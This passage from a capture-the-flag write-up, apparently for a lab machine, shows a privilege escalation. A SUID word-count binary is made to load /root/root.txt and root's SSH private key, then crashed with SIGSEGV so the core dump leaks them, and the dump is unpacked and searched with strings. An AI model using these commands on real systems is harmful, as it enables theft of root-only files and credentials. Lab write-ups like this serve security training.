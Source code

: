 We run `cat /proc/sys/fs/suid_dumpable` to get `2`, which means `SUID` binaries can create core dumps. We can load the `/root/root.txt` file in memory and then purposely crash the program to create a coredump of the program's memory, which will have the loaded `root.txt` flag in it. Searching for how to crash the program and cause a coredump finds [this StackOverflow answer](https://stackoverflow.com/a/5648539), but we need to use `SIGSEGV` to cause an actual crash not just the quit command.

This [Unix StackExchange answer](https://unix.stackexchange.com/a/15534) describes the vulnerability: "The core dump contains a copy of everything which was in memory at the time of the fault. If the program is running suid, that means it needs access to something which you, as a user, do not have access to. If the program gets that information then dumps core, you'll be able to read that privileged information."

So, we will run the program, enter the path to `root.txt` to load it into the program's memory, then we will kill the program, and then return to the program to cause the core dump.

```
(remote) dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
(remote) dasith@secret:/opt$ ps
    PID TTY          TIME CMD
  31803 pts/1    00:00:00 bash
  31925 pts/1    00:00:00 bash
  32288 pts/1    00:00:00 count
  32292 pts/1    00:00:00 ps
(remote) dasith@secret:/opt$ kill -SIGSEGV 32288
(remote) dasith@secret:/opt$ fg
./count
Segmentation fault (core dumped)
```

We see that this is an Ubnutu machine with `cat /etc/issue*` and searching online for where coredumps are in Ubuntu finds [this Ubuntu StackExchange answer](https://askubuntu.com/a/1109747). So, they are in `/var/crash/`. This Ubuntu StackExchange answer says that Apport handles the coredumps. Going to the offical Apport page on [Ubuntu's wiki](https://wiki.ubuntu.com/Apport#Tools) mentions several tools including `apport-unpack`, which is "most useful for extracting the core dump," which is what we want to do. We can extract the coredump with `apport-unpack _opt_count.1000.crash /tmp/crash-report`.

Now, the `CoreDump` file at `/tmp/crash-report/CoreDump` is a binary file so trying to view it with `cat` doesn't work well. We can instead use the `string` command so view the strings within it since the contents of `/root/root.txt` should be in there. We can get the `root.txt` flag in one command with `strings CoreDump | grep -e "[0-9a-f]\{32\}"`. This pipes the strings from `CoreDump` into `grep`, which searches for a regular expression that matches MD5 hashes (regex from [this StackOverflow answer](https://stackoverflow.com/a/4505675)).

To get a root shell we can use the same technique to view the `/root/.ssh/id_rsa` file, which will be `root`'s SSH private key.

```
(remote) dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
(remote) dasith@secret:/opt$ ps
    PID TTY          TIME CMD
  31803 pts/1    00:00:00 bash
  31925 pts/1    00:00:00 bash
```